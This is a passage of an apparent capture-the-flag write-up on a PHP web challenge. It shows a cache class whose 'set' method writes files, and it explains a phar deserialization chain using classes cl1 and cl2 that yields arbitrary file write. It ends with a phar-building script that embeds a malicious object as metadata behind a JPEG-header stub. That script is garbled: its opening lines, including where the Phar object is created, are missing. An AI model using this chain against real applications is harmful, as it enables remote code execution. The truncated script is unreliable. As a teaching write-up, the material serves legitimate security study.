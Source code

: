 ```  
        $this->writeTimes++;

        if (is_null($expire)) {  
            $expire = $this->options['expire'];  
        }

        $expire = $this->getExpireTime($expire);  
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {  
            try {  
                mkdir($dir, 0755, true);  
            } catch (\Exception $e) {

            }  
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {

            $data = gzcompress($data, 3);  
        }

        $data = "\n" . $data;  
        $result = file_put_contents($filename, $data);  
				 if ($result) {  
            return true;  
        }

        return false;  
    }

}  
```

the only code that allow us to write arbitrary code is by calling `set`
function in `cl2` class.

But how could we create cl2 class and call `set` function while nothing such
as `set` function is mentioned in any source codes?  
Well the answer is we could call create cl1 and cl2 class and call its
function by using phar deserilization.

```  
phar_create.php  
startBuffering();  
$phar->addFromString("test.txt","test");  
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");  
$cl2 = new cl2();  
$cl1 = new cl1("aaa", "bbb");  
$phar->setMetadata($cl1);  
$phar->stopBuffering();  
```
